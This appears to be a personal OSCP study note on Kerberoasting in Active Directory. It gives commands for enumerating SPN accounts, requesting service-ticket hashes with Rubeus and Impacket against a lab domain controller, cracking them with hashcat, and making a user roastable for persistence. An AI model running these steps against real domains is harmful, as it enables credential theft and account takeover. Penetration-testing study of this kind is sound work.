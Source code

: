 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/n-active-directory-attacks/4-kerberoasting/","updated":"2024-01-05T11:36:52.167+01:00"}
---
```


-------
- a.k.a TGS-REP roasting
- Client requests a service ticket generated by the DC.
- No checks are done until the ticket is used to authenticate, since it is hashed.
- If the SPN runs in the context of a computer account, managed service account, or group-managed service account, the password will be randomly generated 120 chars.
- Same is true for "krbtgt" user.
- Hence, user accounts are often the way to crack.
-------------------
### Enumerate Kerberoastable users:
- Setspn:
```
setspn.exe -Q */*
```
- PowerView:
```
Get-NetUser -SPN | select serviceprincipalname
```
- Rubeus:
```
\Rubeus.exe kerberoast /stats
```
-------------
### Local Kerberoasting with Rubeus:
1. Start the roast:
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
2. Crack hash on kali:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
------------
### Remote Kerberoasting with Impacket:
1. Start the roast:
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
2. Crack hash:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Note: If Impacket throughs error "KRB_AP_ERR_SKEW(Clock skew too great)", the time of Kali needs to be synchronized with the DC. Do that using "ntpdate" or "rdate".
-------------------
### Targeted Kerberoasting Abuse/Persistence:
Make user kerberoastable where we have write privileges:
```
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```
